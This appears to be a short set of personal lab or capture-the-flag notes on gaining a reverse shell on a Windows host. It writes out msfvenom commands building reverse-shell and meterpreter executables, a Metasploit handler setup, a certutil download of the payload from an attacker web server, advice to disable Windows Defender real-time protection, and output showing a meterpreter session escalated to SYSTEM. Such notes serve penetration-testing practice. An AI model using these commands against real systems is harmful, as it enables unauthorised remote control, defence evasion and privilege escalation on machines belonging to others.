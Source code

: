 testing reverse shell
need meterpreter
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.39 LPORT=3434 -f exe -o rev.exe

windows/x64/meterpreter_reverse_tcp

Reverse shell to get meterpreter session
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.16.7 LPORT=3434 -f exe -o rev2.exe
```

Setting up multi/handler
```bash
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload  windows/x64/meterpreter_reverse_tcp
payload => windows/x64/meterpreter_reverse_tcp
set lhost 10.10.16.7
set lport 3434 
run
```
Command ran on VNCviewer session to pull over rev.exe
- If you get acess denied, turn off real time protection on windows defender and should be good2go
```powershell
certutil -urlcache -split -f http://10.10.14.39:8000/rev.exe
```
Executed rev.exe
![[Pasted image 20230810173418.png]]
Caught reverse shell and getsystem
```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.39:3434 
[*] Meterpreter session 1 opened (10.10.14.39:3434 -> 10.10.110.3:46095) at 2023-08-10 17:29:27 -0400

meterpreter > whoami
[-] Unknown command: whoami
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > shell
Process 7780 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19041.508]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>

```
![[Pasted image 20230810173558.png]]
